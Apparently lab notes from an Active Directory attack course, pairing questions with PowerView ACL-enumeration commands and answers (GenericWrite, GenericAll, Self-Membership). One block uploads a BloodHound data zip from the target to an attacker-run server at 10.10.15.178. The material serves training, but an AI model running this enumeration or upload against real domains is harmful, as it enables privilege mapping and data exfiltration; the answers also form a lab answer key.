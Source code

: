 ```powershell
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
#Performing a Reverse Search & Mapping to a GUID Value
$guid= "00299570-246d-11d0-a768-00aa006e0529"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

What flag can we use with PowerView to show us the ObjectAceType in a human-readable format during our enumeration?

```powershell
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
ResolveGUIDs
```

What privileges does the user damundsen have over the Help Desk Level 1 group?

```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
foreach($line in [System.IO.File]::ReadLines("C:\Tools\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
$sid2 = Convert-NameToSid damundsen
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
GenericWrite
```

Using the skills learned in this section, enumerate the ActiveDirectoryRights that the user forend has over the user dpayne (Dagmar Payne).

```powershell
$sid = Convert-NameToSid forend
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
foreach($line in [System.IO.File]::ReadLines("C:\Tools\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\forend'}}
GenericAll
```

```powershell
#to use bloodhound locally
#https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1
Import-Module .\PSUploads.ps1
#in kali
python3 -m uploadserver 8080
#now upload from powershell
Invoke-FileUpload -Uri http://10.10.15.178:8080/upload -File C:\Tools\20240315055154_ILFREIGHT.zip
#done
```

What is the ObjectAceType of the first right that the forend user has over the GPO Management group? (two words in the format Word-Word)

```powershell
Self-Membership
```
